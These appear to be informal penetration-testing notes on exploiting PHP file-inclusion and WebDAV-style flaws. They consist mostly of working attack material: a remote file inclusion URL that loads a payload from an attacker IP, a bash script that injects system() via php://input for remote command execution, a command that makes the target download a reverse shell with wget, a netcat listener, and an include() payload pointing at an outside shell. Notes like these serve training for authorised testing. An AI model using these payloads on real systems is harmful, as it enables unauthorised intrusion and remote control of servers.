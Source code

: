 Then go to the website and execute the payload.php

http://*target*/addguestbook.php?name=Test&comment=Which+lang%3&LANG=http://10.11.0.202/payload_execute.txt%00&Submit=Submit



### reverse web shell in /usr/share/webshells/php

***REMINDER*** 

when copy your shell from the webshells to the /html / remember when you upload them to the tartget that you need to take note 
of the .txt and copy the file from shell.php to shell.php.txt before you copy it from the attacker to the target. 

php-nc-shell.php and opened the file in a text editor. Then I editied the ip and LPORT. 

Copy the file into /var/ww/html /php-nc-shell.php

to upload files to a server with the webdav vulnerability copy the following script into a file called 11-208.sh and then you can upload your php-nc-shell.php to the server by running the following shell script

```
 
#!/bin/bash
 
if [ -z "*dollar-sign*1" ]; then
        echo "No remote command given"
        exit 1
fi

curl -s --data "<?system('*dollar-sign*{*}');?>" "http://*ipaddress*/internal/advanced_comment_system/admin.php?ACS_path=php://input%00" | egrep -v ' *<.*' | grep -v -i "check variable"
 
```

I upload the exploit.php.txt using the script 11-208.sh that we just created with the following command :

```
root@kali:/var/www# ./11-208.sh wget http://*target*/php-nc-shell.php.txt -O /tmp/php-nc-shell.php
```

I controll that the file was upload in the /tmp/ of the target: Below we can list the /tmp file

```
root@kali:/var/www# ./11-208.sh ls -lh /tmp/

```
Then I used netcat or meterpreter. 

nc -lvp 443


<?php include(*dollar-sign*_GET['file'] . ".htm"); ?>

?file=https://websec.wordpress.com/shell
